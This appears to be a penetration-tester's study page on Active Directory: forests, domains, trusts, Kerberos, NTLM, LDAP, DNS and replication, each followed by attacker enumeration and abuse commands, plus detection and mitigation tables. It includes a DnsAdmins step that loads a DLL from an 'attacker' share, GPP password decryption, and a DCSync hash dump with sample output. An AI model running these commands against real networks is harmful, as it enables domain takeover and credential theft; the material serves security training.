




# Active Directory Basics

> **Active Directory (AD) is Microsoft's directory service that centrally manages users, computers, and resources across an enterprise network — and is the #1 target in corporate penetration tests.**

---

## 🧠 What Is It?

Imagine a company with 5,000 employees. Without a central system, every laptop, server, and printer would need its own separate list of usernames and passwords. If Alice changes her password, IT would have to update it on 200 machines manually.

Active Directory solves this: one central "phone book" for the entire company. One set of credentials works everywhere. One policy enforces screen lock timeouts on all machines. One admin can disable a terminated employee's account and cut their access to everything instantly.

For attackers, this is a golden target: **compromise the directory, compromise everything.**

---

## 🏗️ How It Works

### The Core Problem AD Solves
- **Authentication**: Prove who you are (Kerberos / NTLM)
- **Authorization**: What you can access once authenticated
- **Management**: Centralized policy, software deployment, configuration

### AD Structure Hierarchy

```
Forest (corp.com)
├── Schema (defines all object types)
├── Configuration (replication topology)
├── Global Catalog (partial replica of all objects)
│
├── Tree: corp.com
│   ├── Domain: corp.com  (root domain)
│   │   ├── OUs (containers)
│   │   │   ├── Users
│   │   │   ├── Computers
│   │   │   └── Groups
│   │   └── Domain Controllers
│   │
│   └── Domain: us.corp.com  (child domain)
│       └── Domain Controllers
│
└── Tree: subsidiary.com  (separate tree in same forest)
    └── Domain: subsidiary.com
```

---

## 📊 Diagram



---

## ⚙️ Technical Details

### Domain

The **domain** is the fundamental administrative unit. It defines:
- A single DNS namespace (`corp.local`)
- An authentication boundary (one domain = one Kerberos realm)
- A single password policy (unless Fine-Grained Password Policies are used)
- A replicated database of all objects stored in `NTDS.dit`

**Key attributes:**
- Every domain has a unique **SID** (Security Identifier): `S-1-5-21-3623811015-3361044348-30300820`
- Domain members share authentication infrastructure
- The `NTDS.dit` file at `C:\Windows\NTDS\NTDS.dit` is the crown jewel — it contains all user hashes

### Forest

The **forest** is the security boundary (not the domain). It contains:
- One or more **trees** (collections of domains sharing contiguous namespace)
- A shared **Schema** (blueprint for all object types: what attributes a "User" has)
- A shared **Configuration** partition (replication topology, sites, services)
- A **Global Catalog** (partial, read-only replica of all objects in the forest for fast searches)
- The first domain created is the **forest root domain**

**Why forests matter for attackers:**
- Forest root domain SIDs filter **SID history** across forest trusts (unless `SIDFilteringQuarantined=False`)
- Compromising the forest root = compromising the entire forest schema
- Enterprise Admins group exists only in the forest root domain

### Trees

A **tree** is a collection of domains that share a contiguous DNS namespace:
- `corp.com` → `us.corp.com` → `east.us.corp.com`
- Domains in a tree automatically have **two-way transitive trusts**

### Domain Trusts

Trusts allow users in one domain to access resources in another.

| Trust Type | Direction | Transitivity | Description |
|---|---|---|---|
| Parent-Child | Two-way | Transitive | Auto-created when child domain added |
| Tree-Root | Two-way | Transitive | Auto-created between tree roots |
| Forest | One or Two-way | Transitive | Between forest root domains |
| External | One or Two-way | Non-transitive | To specific domain outside forest |
| Shortcut | One or Two-way | Transitive | Optimizes Kerberos paths |
| Realm | One or Two-way | Can be either | Between AD and non-Windows Kerberos |

**Attacker perspective on trusts:**
```
corp.local ←──two-way trust──→ subsidiary.local

If you compromise a user in corp.local who has
admin rights in subsidiary.local via trust →
lateral movement across domains.

If SID filtering is disabled, SID history injection
across trust allows privilege escalation.
```

**Enumerate trusts:**
```powershell
# PowerView
Get-DomainTrust
Get-ForestTrust
# nltest
nltest /domain_trusts /all_trusts
# .NET
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

---

### Domain Controllers

A **Domain Controller (DC)** is a Windows Server that:
- Hosts a writable copy of the AD database (`NTDS.dit`)
- Handles authentication requests (Kerberos KDC, NTLM)
- Replicates changes to other DCs
- Enforces Group Policy

**NTDS.dit location:** `C:\Windows\NTDS\NTDS.dit`  
**SYSVOL location:** `C:\Windows\SYSVOL\` (GPO files, login scripts — replicated via DFSR)

#### FSMO Roles (Flexible Single Master Operations)

Some AD operations can only happen on one DC at a time. These are the **5 FSMO roles**:

| Role | Scope | Function | Attack Impact |
|---|---|---|---|
| **Schema Master** | Forest-wide | Only DC that can modify the AD schema | If compromised, can add malicious attributes to schema |
| **Domain Naming Master** | Forest-wide | Controls adding/removing domains to forest | If compromised, can add rogue domains |
| **RID Master** | Per-domain | Allocates pools of RIDs to DCs (prevents duplicate SIDs) | If offline, DCs can't create new objects once RID pool exhausted |
| **PDC Emulator** | Per-domain | Handles password changes, account lockouts, time sync, legacy NTLM auth | Primary target — processes all password changes |
| **Infrastructure Master** | Per-domain | Updates cross-domain group membership references | Low attack value |

```powershell
# Find FSMO role holders
netdom query fsmo
# PowerView
Get-DomainController | Select-Object Name, Forest, Domain
Invoke-Command -ScriptBlock {netdom query fsmo} -ComputerName DC01
```

---

### AD Objects

#### Users

Every person (or service) gets a **User object**. Key attributes for attackers:

| Attribute | LDAP Name | Description | Attack Relevance |
|---|---|---|---|
| Username | `sAMAccountName` | Pre-Win2000 logon name | Used in most auth |
| UPN | `userPrincipalName` | `user@corp.local` | Modern auth, ADFS |
| DN | `distinguishedName` | `CN=Alice,OU=IT,DC=corp,DC=local` | Unique path in AD tree |
| Password hash | `unicodePwd` | Stored as NT hash in NTDS.dit | Target of DCSync, NTDS dump |
| Last logon | `lastLogonTimestamp` | Approximate last logon | Find stale accounts |
| SPN | `servicePrincipalName` | Services registered to account | Kerberoasting target |
| UAC flags | `userAccountControl` | Account flags (enabled, pre-auth, etc.) | Find DONT_REQ_PREAUTH |
| Admin count | `adminCount` | =1 means was/is in protected group | High-value targets |
| Description | `description` | Often contains passwords! | Low-hanging fruit |
| MemberOf | `memberOf` | Group memberships | Privilege mapping |

```powershell
# Get all users with interesting attributes
Get-DomainUser -Properties samaccountname,description,memberof,admincount,serviceprincipalname |
  Where-Object {$_.description -ne $null} | Select samaccountname,description
```

**UserAccountControl (UAC) Flags** — critical for attack identification:

| Flag | Value | Meaning |
|---|---|---|
| `ACCOUNTDISABLE` | 0x0002 | Account disabled |
| `PASSWD_NOTREQD` | 0x0020 | Password not required |
| `DONT_EXPIRE_PASSWD` | 0x10000 | Password never expires |
| `DONT_REQ_PREAUTH` | 0x400000 | **AS-REP Roasting target** |
| `TRUSTED_FOR_DELEGATION` | 0x80000 | **Unconstrained delegation** |
| `TRUSTED_TO_AUTH_FOR_DELEGATION` | 0x1000000 | **Constrained delegation** |

#### Groups

Groups control access to resources. Two types:

**Security Groups** — used for permissions (what we care about as attackers)  
**Distribution Groups** — only for email distribution lists, not security-relevant

**Group Scope** defines where the group can be used:

| Scope | Members from | Used for permissions in | Attacker Notes |
|---|---|---|---|
| **Domain Local** | Anywhere in forest | Same domain only | Often used on resource ACLs |
| **Global** | Same domain only | Anywhere in forest | Most common for user organization |
| **Universal** | Anywhere in forest | Anywhere in forest | Stored in Global Catalog |

**High-value groups (attack targets):**
```
Domain Admins        → Full control of domain
Enterprise Admins    → Full control of forest (forest root only)
Schema Admins        → Can modify AD schema
Administrators       → Local admins on all DCs
Account Operators    → Can manage most user accounts
Backup Operators     → Can backup/restore files (bypass NTFS permissions)
Server Operators     → Can manage domain servers
Group Policy Creator Owners → Can create/modify GPOs
DnsAdmins            → Can load arbitrary DLL into DNS service (privesc!)
```

#### Computer Objects

Every domain-joined machine gets a **computer object** with:
- A machine account (`MACHINE$`) with an auto-rotating password (every 30 days by default)
- Machine account has NT hash stored in NTDS.dit
- Machine accounts can be Kerberoasted if they have SPNs
- LAPS stores local admin passwords in `ms-Mcs-AdmPwd` attribute

```powershell
# Find computers with LAPS enabled (non-null ms-Mcs-AdmPwd)
Get-DomainComputer -Properties name,ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime |
  Where-Object {$_."ms-mcs-admpwd" -ne $null}
```

#### Organizational Units (OUs)

OUs are containers for organizing objects. Their main purposes (for attackers):
1. **GPO application**: GPOs linked to an OU apply to all objects in it
2. **Delegation**: Admins can be granted control over specific OUs
3. **Administrative structure**: Maps to org chart

```powershell
# Get all OUs
Get-DomainOU
# Find OUs where a user has delegated rights
Get-DomainOU | Get-ObjectAcl -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -match "Write"}
```

#### Group Policy Objects (GPOs)

GPOs are collections of settings applied to users/computers in AD. They're stored in SYSVOL and replicated to all DCs.

**GPO processing order (LSDOU — last writer wins):**
```
Local → Site → Domain → OU (inner-most OU wins)
```

**GPO attack vectors:**
- Scripts in SYSVOL (login scripts, startup scripts) may contain credentials
- If you have **write access to a GPO**, you can push code to all machines it applies to
- `SharpGPOAbuse` automates GPO-based code execution

```powershell
# Find GPOs you can modify
Get-DomainGPO | Get-ObjectAcl -ResolveGUIDs |
  Where-Object {$_.ActiveDirectoryRights -match "Write" -and
    $_.SecurityIdentifier -match "S-1-5-21-...-YOURRID"}

# Find which OUs a GPO applies to
Get-DomainGPOLocalGroup -GPOIdentity "{GPO-GUID}"
```

**Credentials in SYSVOL (Group Policy Preferences):**
```powershell
# Find cpassword in SYSVOL (pre-patched MS14-025)
findstr /S /I cpassword \\corp.local\sysvol\corp.local\policies\*.xml
# Decrypt (AES key published by Microsoft):
gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE="
```

#### Service Principal Names (SPNs)

SPNs register a service in Kerberos. Format: `serviceClass/host:port/serviceName`

Examples:
```
HTTP/webserver.corp.local
MSSQLSvc/dbserver.corp.local:1433
cifs/fileserver.corp.local
ldap/DC01.corp.local
```

**Why SPNs matter for attacks:**
- **Kerberoasting**: Any authenticated user can request a TGS ticket for any SPN
- TGS is encrypted with the service account's NT hash
- Take ticket offline → crack password

```powershell
# Find all SPNs in domain
Get-DomainUser -SPN | Select-Object samaccountname,serviceprincipalname
setspn -Q */* -F  # native Windows command
```

---

### Kerberos Authentication Deep Dive

Kerberos is the primary authentication protocol in AD (port 88/TCP+UDP).

#### Key Components

- **KDC (Key Distribution Center)**: Runs on every DC, consists of:
  - **AS (Authentication Service)**: Issues TGTs
  - **TGS (Ticket Granting Service)**: Issues service tickets
- **krbtgt account**: Special account whose hash is used to sign ALL TGTs — the most critical secret in AD
- **TGT (Ticket Granting Ticket)**: Encrypted "master ticket" proving identity to KDC
- **TGS/Service Ticket**: Encrypted ticket for accessing a specific service



#### Kerberos Packet Details

**AS-REQ (Pre-Authentication):**
```
KerberosV5 AS-REQ {
  pvno: 5
  msg-type: 10 (AS-REQ)
  padata: PA-ENC-TIMESTAMP
    padata-type: 2 (PA-ENC-TIMESTAMP)
    padata-value: timestamp encrypted with DES/RC4/AES of user password
  req-body:
    kdc-options: forwardable, renewable, canonicalize
    cname: Alice
    realm: CORP.LOCAL
    sname: krbtgt/CORP.LOCAL
    till: 20500913024805Z  (far future - unlimited)
    etype: 17 (AES128), 18 (AES256), 23 (RC4)
}
```

**Why pre-auth matters:** Without pre-auth (`DONT_REQ_PREAUTH` flag), the AS-REP containing the encrypted TGT can be requested by **anyone** without proving knowledge of the password — this is **AS-REP Roasting**.

**PAC (Privilege Attribute Certificate):**
The PAC is embedded in tickets and contains:
- User's SID
- Group memberships  
- User flags

The PAC is signed with the krbtgt key. Forging the PAC = forging privileges = **Golden/Silver tickets**.

#### Attack Surfaces in Kerberos

| Attack | What's Stolen/Forged | Requirement |
|---|---|---|
| Kerberoasting | TGS ticket → crack service acct hash | Valid domain credentials |
| AS-REP Roasting | AS-REP → crack user hash | No credentials needed |
| Pass-the-Ticket | Stolen TGT/TGS reused | Memory access (or ticket file) |
| Golden Ticket | Forged TGT | krbtgt NTLM hash |
| Silver Ticket | Forged TGS | Service account NTLM hash |
| Overpass-the-Hash | NT hash → Kerberos TGT | NT hash of user |

---

### NTLM Authentication

NTLM is the legacy protocol used when:
- Accessing resources by IP address (not hostname)
- The target isn't AD-joined
- Kerberos fails to negotiate
- Older clients/services

#### NTLM Challenge-Response Flow



#### NTLM Hash Types — Critical Differences

| Type | Format | Example | Can be Used For |
|---|---|---|---|
| **NT Hash** (NTLM) | `MD4(Unicode(password))` | `aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4` | Pass-the-Hash, cracking |
| **Net-NTLMv1** | DES-based challenge response | `username::domain:resp:resp:challenge` | Cracking only, relay (legacy) |
| **Net-NTLMv2** | HMAC-MD5 challenge response | `username::domain:challenge:resp:blob` | Cracking, **relay attacks** |

**Critical difference:**
- **NT Hash**: Can be used directly for **Pass-the-Hash** (no need to crack)
- **Net-NTLMv1/v2**: These are CHALLENGE RESPONSES — cannot be used for Pass-the-Hash, must crack or relay
- **Net-NTLMv2** is captured by Responder and can be **relayed** via ntlmrelayx

```
# Where each hash type lives:
NT Hash         → NTDS.dit (domain), SAM (local), LSASS memory
Net-NTLMv2      → Network capture (Responder), never stored persistently
```

---

### LDAP in Active Directory

**LDAP (Lightweight Directory Access Protocol)** is how applications query AD.

**Ports:**
| Port | Protocol | Description |
|---|---|---|
| 389 | LDAP (cleartext) | Standard queries |
| 636 | LDAPS (TLS) | Encrypted queries |
| 3268 | Global Catalog LDAP | Forest-wide queries |
| 3269 | Global Catalog LDAPS | Encrypted forest-wide |

**LDAP Distinguished Names:**
```
CN=John Smith,OU=IT,OU=Employees,DC=corp,DC=local
│               │   │             │
│               │   │             └── Domain Component (domain parts)
│               │   └── Organizational Unit
│               └── Organizational Unit  
└── Common Name (object name)
```

**Common LDAP Query Filters:**
```bash
# All enabled user accounts
((&(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2))))

# Kerberoastable users (have SPN, enabled)
(&(samAccountType=805306368)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))

# AS-REP roastable (pre-auth disabled)
(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountType=805306368))

# Admin accounts
(&(objectClass=user)(adminCount=1))

# Unconstrained delegation (computers)
(&(userAccountControl:1.2.840.113556.1.4.803:=524288)(objectClass=computer))
```

**Attacker LDAP queries:**
```bash
# Null bind attempt (anonymous)
ldapsearch -H ldap://10.0.0.1 -x -b "DC=corp,DC=local" -s base "(objectClass=*)"

# Authenticated query - all users
ldapsearch -H ldap://10.0.0.1 -x -D "corp\user" -w "password" \
  -b "DC=corp,DC=local" "(objectClass=user)" \
  sAMAccountName userPrincipalName memberOf description

# Find all domain admins  
ldapsearch -H ldap://10.0.0.1 -x -D "corp\user" -w "password" \
  -b "DC=corp,DC=local" \
  "(&(objectClass=user)(memberOf=CN=Domain Admins,CN=Users,DC=corp,DC=local))" \
  sAMAccountName
```

---

### DNS in Active Directory

AD is tightly integrated with DNS — DCs register **SRV records** so clients can find services.

**Key SRV Records:**
```
_ldap._tcp.corp.local          → Find LDAP servers (DCs)
_kerberos._tcp.corp.local      → Find KDCs
_gc._tcp.corp.local            → Find Global Catalog servers
_kpasswd._tcp.corp.local       → Find password change server
_ldap._tcp.dc._msdcs.corp.local → Find writable DCs
```

**AD-Integrated DNS Zones:** DNS data stored in AD, replicated to all DCs automatically. No single point of failure.

**Attacker DNS operations:**
```bash
# Zone transfer attempt
dig axfr corp.local @10.0.0.1

# Query SRV records to find DCs
nslookup -type=SRV _ldap._tcp.corp.local
dig SRV _kerberos._tcp.corp.local

# Find all DCs
nslookup -type=SRV _ldap._tcp.dc._msdcs.corp.local

# Reverse lookup
dig -x 10.0.0.1 @10.0.0.1
```

**DnsAdmins abuse (privesc path):**
```powershell
# If you're in DnsAdmins group:
# Load arbitrary DLL into DNS service (runs as SYSTEM)
dnscmd DC01 /config /serverlevelplugindll \\attacker\share\evil.dll
# Restart DNS service
sc.exe \\DC01 stop dns
sc.exe \\DC01 start dns
```

---

### AD Replication

DCs sync with each other using the **Distributed Replication System (DRS)** protocol.

**Replication metadata:**
- **USN (Update Sequence Number)**: Monotonic counter, incremented on every change
- **Originating USN**: USN at the DC where change originated
- **Invocation ID**: Unique ID per DC installation
- **Replication metadata**: Tracks which changes each DC has received

**Replication topology:**
- Uses **KCC (Knowledge Consistency Checker)** to automatically create optimized replication paths
- **Intrasite replication**: Every 15 seconds (triggered by notifications)
- **Intersite replication**: Configurable, default 3-hour intervals

**Why this matters for attackers — DCSync attack:**
The `DRS-GetNCChanges` operation is what DCs use to replicate. Any account with these permissions can call it:
- `DS-Replication-Get-Changes` (GUID: 1131f6aa...)
- `DS-Replication-Get-Changes-All` (GUID: 1131f6ad...)

These are normally only granted to DCs and Domain Admins. If you compromise an account with these rights, or grant them to a backdoor account, you can **dump all hashes from AD** without touching NTDS.dit.

```bash
# DCSync - mimics DC replication to extract hashes
secretsdump.py corp.local/user:pass@DC.corp.local -just-dc
# Output:
# [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
# corp.local\Administrator:500:aad3...:32ed87bdb5fdc5e9cba88547376818d4:::
# corp.local\krbtgt:502:aad3...:819af826bb148e603acb0f33d17632f8:::
```

---

### Why AD Is the #1 Target



**The goal of AD compromise:**
1. **Domain Admin**: Full control of the domain (read/write all objects, push code to all machines)
2. **Enterprise Admin**: Full control of the forest  
3. **krbtgt hash**: Forge Golden Tickets → persistent access that survives password resets

---

## 💥 Exploitation Step-by-Step

### Basic AD Reconnaissance (Initial Foothold)

```powershell
# 1. Determine domain membership
whoami /all
echo %USERDOMAIN%
echo %LOGONSERVER%

# 2. Get domain information
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()

# 3. Find domain controllers
nslookup -type=SRV _ldap._tcp.corp.local
nltest /dclist:corp.local

# 4. Current user's group memberships
net user %USERNAME% /domain
whoami /groups

# 5. Find domain admins
net group "Domain Admins" /domain

# 6. Find all domain computers
net view /domain:corp.local
```

### From Linux (No Credentials Yet)

```bash
# Enumerate DC via LDAP null bind
ldapsearch -H ldap://10.0.0.1 -x -b "" -s base "(objectClass=*)" \
  namingContexts defaultNamingContext

# Try zone transfer
dig axfr corp.local @10.0.0.1

# Find DC with nmap
nmap -p 88,389,445,636,3268 10.0.0.0/24

# Enumerate SMB (null session)
smbclient -L //10.0.0.1 -N
enum4linux -a 10.0.0.1
```

---

## 🛠️ Tools

| Tool | Purpose | Key Commands |
|---|---|---|
| **PowerView** | AD enumeration via PowerShell | `Get-DomainUser`, `Get-DomainGroup` |
| **BloodHound** | Graph attack path analysis | Import SharpHound data, run queries |
| **SharpHound** | BloodHound data collection | `SharpHound.exe -c All` |
| **Impacket** | Python AD attack suite | `secretsdump.py`, `GetUserSPNs.py` |
| **Mimikatz** | Credential extraction | `sekurlsa::logonpasswords` |
| **CrackMapExec** | Network-wide AD attacks | `crackmapexec smb` |
| **Rubeus** | Kerberos attack toolkit | `kerberoast`, `asreproast`, `dump` |
| **ldapdomaindump** | LDAP enumeration to HTML/JSON | `ldapdomaindump -u corp\\user` |
| **enum4linux** | SMB/LDAP enumeration | `enum4linux -a DC` |
| **kerbrute** | Kerberos user enum & spraying | `kerbrute userenum` |

```bash
# Install Impacket
pip3 install impacket
# or
git clone https://github.com/fortra/impacket && pip3 install .

# Install BloodHound (Community Edition)
docker run -p 8080:8080 specterops/bloodhound

# Install CrackMapExec
pip3 install crackmapexec
# or
apt install crackmapexec
```

---

## 🔍 Detection

| Technique | Detection Method | Event IDs |
|---|---|---|
| LDAP reconnaissance | Monitor high-volume LDAP queries from non-DC hosts | 1644 (LDAP expensive query) |
| Kerberoasting | Unusual TGS requests (RC4 encryption, many in short time) | 4769 |
| AS-REP Roasting | AS-REQ without pre-auth | 4768 |
| DCSync | Replication from non-DC | 4662 |
| Pass-the-Hash | NTLM auth from unusual source | 4624 (logon type 3) |
| Golden Ticket | TGT with 10-year lifetime, unusual encryption | 4768, 4769 |
| Suspicious LDAP | Queries for all users, all computers from single host | Network monitoring |

---

## 🛡️ Mitigation

| Attack Vector | Mitigation |
|---|---|
| Kerberoasting | Use strong passwords for service accounts (25+ chars), use gMSA |
| AS-REP Roasting | Enable Kerberos pre-authentication on all accounts |
| NTLM relay | Enable SMB signing, disable NTLM where possible, enable EPA |
| LLMNR/NBT-NS | Disable via GPO |
| DCSync | Restrict DS-Replication-Get-Changes to DCs only, monitor |
| Credential access | Implement Credential Guard, Protected Users group |
| Pass-the-Hash | Enable RDP restricted admin, Credential Guard |
| Weak GPO security | Audit GPO permissions, use AGPM |

---

## 📚 References

- [Microsoft AD Documentation](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview)
- [The Hacker Recipes - AD](https://www.thehacker.recipes/ad/recon)
- [SpecterOps BloodHound Docs](https://bloodhound.readthedocs.io/)
- [HarmJ0y PowerView Guide](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- [Impacket GitHub](https://github.com/fortra/impacket)
- [AD Security Blog - Sean Metcalf](https://adsecurity.org/)
- [PayloadsAllTheThings - AD](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- RFC 4120 - Kerberos V5
- MS-ADTS: Active Directory Technical Specification
